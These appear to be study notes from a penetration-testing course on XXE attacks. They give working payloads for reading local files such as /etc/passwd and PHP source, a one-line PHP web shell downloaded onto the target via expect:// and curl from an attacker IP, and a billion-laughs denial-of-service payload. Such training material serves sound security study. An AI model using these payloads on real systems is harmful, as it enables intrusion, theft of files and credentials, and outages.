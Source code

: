 When a web application trusts unfiltered XML data from user input. We can define new custom entities by referencing external XML DTD. In case we can have them displayed on the page, we should also be able to define external entities and make them reference a local file, which, when displayed, should show as the content  of the file on the back-end server.

## Identifying

We first need to find a page that accept an XML user input:
![[web_attacks_xxe_identify.jpg]]

If we fill the contact form and click on `Send Data`, then intercept the HTTP request with Burp, we get the following request:
![[web_attacks_xxe_request.jpg]]

Our data appears to be sent in an XML format to the web server, making it a potential XXE testing target. Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input. In that case, we may be able to exploit this XML form to read local files.

If we send the form without any modification, we get the following message:
![[web_attacks_xxe_response.jpg]]

The value of the email element is being displayed back to us on the page. We note know which elements are being displayed, to know which elements to inject into.

We can try to define a new entity then use it as a variable in the `email` element to see whether it gets replaced with the value we defined. We can start by adding the following lines after the first line:
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

**Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

Now, we should have a new XML entity called `company`, which we can reference with `&company;`. So, instead of using our email in the `email` element, let us try using `&company;`, and see whether it will be replaced with the value we defined (`Inlane Freight`):
![[web_attacks_xxe_new_entity.jpg]]

A non-vulnerable web application would display `&company;` as a raw value. In this case we successfully injected the entity.

**Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files

We will now try to define an external XML entity:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

Let us now send the modified request and see whether the value of our external XML entity gets set to the file we reference:
![[web_attacks_xxe_external_entity.jpg]]

We successfully got the contents of the file. This enables us to read the content of sensitive files, like configuration files that may contain passwords or other sensitive files like an `id_rsa` SSH key.

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

## Reading Source Code

Obtaining the source code with local file disclosure can allow us to perform `Whitebox Penetration Test`. or at the very least reveal secret configurations like database passwords or API keys.

, let us see if we can use the same attack to read the source code of the `index.php` file, as follows:
![[web_attacks_xxe_file_php.jpg]]

It doesn't display any content because, `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`. If a file contains some of XML's special characters (e.g. `<`/`>`/`&`). it would break the external entity reference and will not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

We can use PHPs `php://filter/` wrapper instead of `file://`, and specify `convert.base64-encode` encoder as our filter and then add an input resource (e.g. `resource=index.php`). t:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

With that, we can send our request, and we will get the base64 encoded string of the `index.php` file:
![[web_attacks_xxe_php_filter.jpg]]

We can select the base64 string, click on Burp's Inspector tab (on the right pane), and it will show us the decoded file.

`This trick only works with PHP web applications.`

## Remote Code Execution With XXE

The easiest way to gain an RCE, is to look for SSH keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

In case XXE directly prints the output as shown above, then we can execute basic commands as `expect://id`, and the page should print the command output. In case of no access to the output, or needing to execute more complicated commands 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```shell-session
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally opened ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. However, `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Try it against this exercise, and see if it works.